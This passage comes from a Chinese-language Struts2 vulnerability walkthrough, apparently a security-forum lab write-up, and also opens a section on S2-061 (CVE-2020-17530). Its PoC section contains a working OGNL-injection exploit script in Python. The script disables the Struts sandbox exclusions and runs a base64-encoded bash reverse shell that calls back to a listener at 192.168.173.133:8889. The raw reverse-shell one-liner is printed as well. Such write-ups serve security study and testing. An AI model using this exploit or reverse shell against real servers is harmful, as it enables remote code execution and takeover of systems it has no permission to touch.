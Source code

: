 ![image-20210711213340974](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-20811e900a89d5d3989902ca8bb3631a9c0a600c.png)

![image-20210711213331656](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-04693669905f59d1f2b8a5a2647dd38cadd7dc83.png)

##### poc-3，反弹shell

```php
B ase64编码网址：
http://www.jackson-t.ca/runtime-exec-payloads.html   
bash -i &gt;&amp; /dev/tcp/192.168.173.133/8889 0&gt;&amp;1
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvODg4OSAwPiYx}|{B ase64,-d}|{bash,-i}
```

```php
import requests
url = &quot;http://192.168.173.144:8080&quot;
data1 = {
 &quot;id&quot;: &quot;%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}&quot;
}
data2 = {
 &quot;id&quot;: &quot;%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvODg4OSAwPiYx}|{B ase64,-d}|{bash,-i}'))}&quot;
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

![image-20210711214038448](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f2ff02b573b5482d659475cb62bc775b0d7a6cf9.png)

### 4.19 S2-061远程代码执行漏洞

#### 漏洞原理

##### Apache Struts2框架是一个用于开发Java EE网络应用程序的Web框架。Apache Struts于2020年12月08日披露 S2-061 Struts 远程代码执行漏洞（CVE-2020-17530），在使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行，风险极大。S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强OGNL表达式沙盒，而S2-061绕过了该沙盒。

#### 影响版本

```php
Struts 2.0.0 - Struts 2.5.25
```

#### 启动漏洞

![image-20210711214547707](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-938c3e9ce1f75519bd6ab7f29e4027099f31d90b.png)
